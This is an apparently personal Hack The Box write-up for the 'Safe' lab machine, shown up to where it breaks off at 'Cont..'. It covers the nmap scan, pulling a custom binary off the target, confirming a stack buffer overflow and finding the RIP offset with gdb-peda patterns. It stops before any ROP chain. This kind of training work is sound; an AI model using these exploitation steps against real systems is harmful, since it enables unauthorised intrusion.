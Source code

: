 ```yaml
---
layout: post
title: Safe
categories: [HTB Writeup, Safe]
tags: [RCE, ROP chain, enumeration, HTB]
fullview: false
comments: true
---
```


![Safe info card](/images/safe_card.png)

A 20 point box where the foothold requires a binary exploitation/ROP. However, it gets much easier from there and the ROP is fairly straight forward.  

So let's get started.

## TL;DR

* enumerate the box to find a service (with a custom binary) on port 1337
* Identify the buffer overlfow and create a ROP chain to gain a foothold
* from shell, locate a KeePass vault with images
* crack the KeePass vault using one of the image files to gain root

## Initial Enumeration

{% highlight Fortran linenos %}
db-d2@kali:~/hack_the_box$ nmap -sC -sV -sT -o safe_map 10.10.10.147
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.147
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.31 seconds
{% endhighlight %}

So we have http on 80 and ssh on 22. Let's check the http site

## Web Enumeration

![Safe http site](/images/safe_http.png)

Looks like the default apache page but let's inspect it anyway

![Safe http source](/images/safe_http_src.png)

So "myapp" is running on p1337 and it's available for download. Let's check out the service first

{% highlight Fortran linenos %}
db-d2@kali:~/hack_the_box$ nc 10.10.10.147 1337
 21:05:13 up 27 min,  0 users,  load average: 0.00, 0.00, 0.00
hello

What do you want me to echo back? hello
{% endhighlight %}

Not much here, let's grab myapp and take a look

{% highlight Fortran linenos %}
db-d2@kali:~/hack_the_box$ wget http://10.10.10.147/myapp
  http://10.10.10.147/myapp
Connecting to 10.10.10.147:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16592 (16K)
Saving to: ‘myapp’

myapp 100%[==============================================>]  16.20K  --.-KB/s  in 0.05s

db-d2@kali:~/hack_the_box$ sudo chmod +x myapp
[sudo] password for db-d2:

db-d2@kali:~/hack_the_box$ ./myapp
 21:43:47 up 58 min,  3 users,  load average: 0.01, 0.01, 0.00

What do you want me to echo back? bob
bob
{% endhighlight %}

## Myapp
Okay so we have a pretty basic app that starts off with uptime, 
takes input and echos it back. Let's see if we have a buffer overflow in here

{% highlight Ada linenos %}
What do you want me to echo back? yipyipyipyipyipyipyipyipyipyip...
...
Segmentation fault
{% endhighlight %}

And jackpot! Let's break it open in gdb and run checksec (btw, if you're not using [Peda](https://github.com/longld/peda) you should install it now)

{% highlight Fortran linenos %}
Reading symbols from ./myapp...
(No debugging symbols found in ./myapp)
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
{% endhighlight %}

NS is enabled so I won't be able to just inject and execute shellcode. I'll have to build a ROP chain. Oh, darn...

First up, I need to find the offest so let's create a pattern

{% highlight Fortran linenos %}
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHA...'
gdb-peda$

gdb-peda$ r
Starting program: /home/db-d2/hack_the_box/myapp
[Detaching after vfork from child process 775755]
 21:10:11 up 10 days, 24 min,  2 users,  load average: 0.00, 0.00, 0.00

What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA...

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ecfff3 (<__GI___libc_write+19>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x4052a0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcA")
RDI: 0x7ffff7fa2670 --> 0x0
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffe448 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x4011ac (<main+77>:	ret)
R8 : 0xc9
R9 : 0x0
R10: 0xfffffffffffff41f
R11: 0x246
R12: 0x401070 (<_start>:	xor    ebp,ebp)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:	call   0x401030 <puts@plt>
   0x4011a6 <main+71>:	mov    eax,0x0
   0x4011ab <main+76>:	leave
=> 0x4011ac <main+77>:	ret
   0x4011ad:	nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:	push   r15
   0x4011b2 <__libc_csu_init+2>:	mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:	push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe448 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0x7fffffffe450 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0x7fffffffe458 ("AAQAAmAARAAoAASAApAATAAqAAUAAAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7fffffffe460 ("RAAoAASAApAATAAqAAUAArAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0032| 0x7fffffffe468 ("ApAATAAqAAUAArAAVAAAAuAAXAAvAAYAAwAAZAAxAAyA")
0040| 0x7fffffffe470 ("AAUAArAAVAAtAAWAXAAvAAYAAwAAZAAxAAyA")
0048| 0x7fffffffe478 ("VAAtAAWAAuAvAAYAAwAAZAAxAAyA")
0056| 0x7fffffffe480 ("AuAAXAAAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ac in main ()
{% endhighlight %}

So we stopped on ret as it was trying to load the next stack item into the RIP. Awesome, let's own the RIP. I'll copy out "jAA9AAOA" and use it to locate the offset

{% highlight Awk linenos %}
gdb-peda$ pattern_offset jAA9AAOA
jAA9AAOA found at offset: 120
{% endhighlight %}

Now i'll create a new pattern with a size of 120 and throw in 8 junk chars at the end

{% highlight Fortran linenos %}
gdb-peda$ pattern create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAK
AAgAA6AALAAhAA7AAMAAiAA8AANAA'

gdb-peda$ r
Starting program: /home/db-d2/hack_the_box/myapp
[Detaching after vfork from child process 775918]
 22:25:55 up 10 days,  1:40,  2 users,  load average: 0.00, 0.00, 0.00

What do you want me to echo back? AAA%AAsAABAA$AAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1KAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ecfff3 (<__GI___libc_write+19>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x4052a0 ("AAA%AAsAABAA$AAnAACAAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere\n")
RDI: 0x7ffff7fa2670 --> 0x0
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fffffffe448 ("helothere")
RIP: 0x4011ac (<main+77>:	ret)
R8 : 0x82
R9 : 0x0
R10: 0xfffffffffffff41f
R11: 0x246
R12: 0x401070 (<_start>:	xor    ebp,ebp)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011a1 <main+66>:	call   0x401030 <puts@plt>
   0x4011a6 <main+71>:	mov    eax,0x0
   0x4011ab <main+76>:	leave
=> 0x4011ac <main+77>:	ret
   0x4011ad:	nop    DWORD PTR [rax]
   0x4011b0 <__libc_csu_init>:	push   r15
   0x4011b2 <__libc_csu_init+2>:	mov    r15,rdx
   0x4011b5 <__libc_csu_init+5>:	push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe448 ("helothere")
0008| 0x7fffffffe450 --> 0x7fffffff0065 --> 0x0
0016| 0x7fffffffe458 --> 0x100000000
0024| 0x7fffffffe460 --> 0x40115f (<main>:	push   rbp)
0032| 0x7fffffffe468 --> 0x7ffff7e077d9 (<init_cacheinfo+297>:	mov    rbp,rax)
0040| 0x7fffffffe470 --> 0x0
0048| 0x7fffffffe478 --> 0x35136ec0411f0d74
0056| 0x7fffffffe480 --> 0x401070 (<_start>:	xor    ebp,ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004011ac in main ()
{% endhighlight %}

Cont..

